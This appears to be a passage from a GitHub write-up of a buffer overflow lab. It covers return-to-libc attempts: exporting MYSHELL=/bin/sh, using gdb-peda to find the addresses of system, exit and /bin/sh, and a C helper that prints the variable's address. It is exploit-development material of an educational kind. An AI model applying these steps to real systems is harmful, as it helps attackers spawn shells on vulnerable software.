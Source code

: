 ### Contents of EBP post execution of attempt #2 <EBP_PostExec.png>
![alt text](debug_screenshots/EBP_PostExec.png "EBP Contents 2")

## Return-To-LIBC Attempts

### Find addresses of system, exit, and /bin/sh to start

### Make environment variable with /bin/sh as value
```bash
export MYSHELL=/bin/sh
```

### In gdb:
```bash
gdb-peda$ p system  # 0xb7e42db0
gdb-peda$ p exit  # 0xb7e369e0
gdb-peda$ searchmem /bin/sh # libc=0xb7f63b2b, gdb-env=bfffff02 
```

#### When running this exploit in the shell environemnt (not in gdb), it is useful to make a C program that outputs the address of my newly created environment variable, MYSHELL

```c
#include <stdio.h>

int main()
{

  char* shell = (char*) getenv("MYSHELL");

  if (shell) {
    printf("\tValue:\t%s\n", shell);
    printf("\tAddres:\t%x\n", (unsigned int) shell);
  }

  return 0;
}
```
> This outputs "0xbffffefd"
